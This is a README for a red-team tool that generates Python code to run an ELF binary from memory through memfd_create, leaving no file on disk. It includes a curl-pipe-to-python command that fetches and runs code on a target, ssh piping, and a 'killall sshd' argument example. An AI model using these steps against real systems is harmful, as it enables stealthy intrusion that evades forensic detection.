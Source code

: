 ## Execute ELF files on a machine without dropping an ELF

### Description

This Python script generates Python code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 (for `memfd_create` support)
 * Python: either 2 or 3

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c`:

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```
$ ./fee.py -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__NB!__ By default, the script uses libc to resolve the right syscall number for `memfd_create` on the target. If this fails (old or unsupported libc), you should specify the syscall number manually (this is different for most architectures). You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest.

If you need to change the syscall number, use the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-s NUM] [-a ARGV] [-c] [-p PATH] [-w CHARS] [-z LEVEL] path

Print Python code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target
                        platform (default: resolve symbol via libc)
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied
                        to execle (default: path to file as argv[0])
  -c, --with-command    wrap the generated code in a call to Python, for
                        piping directly into ssh
  -p PATH, --python-path PATH
                        path to python on target if '-c' is used (default:
                        '/usr/bin/env python3')
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to
                        wrap to a newline (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)
```